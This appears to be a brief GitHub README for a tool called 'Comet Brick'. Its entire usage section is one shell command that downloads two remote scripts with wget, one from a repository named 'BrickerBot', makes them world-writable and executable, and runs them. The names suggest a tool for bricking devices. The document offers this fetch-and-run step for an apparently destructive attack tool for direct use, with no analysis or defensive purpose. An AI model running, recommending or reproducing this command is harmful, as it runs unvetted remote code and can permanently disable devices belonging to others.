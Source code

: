 # Comet Brick

## How2Use

    $ wget https://raw.githubusercontent.com/freeis1337/cometbrick/main/char_for_brick.bash; wget https://raw.githubusercontent.com/freeis1337/BrickerBot/main/bricker.sh; chmod 777 bricker.sh; chmod +x bricker.sh; chmod 777 char_for_brick.bash; chmod +x char_for_brick.bash; bash char_for_brick.bash || bash bricker.sh
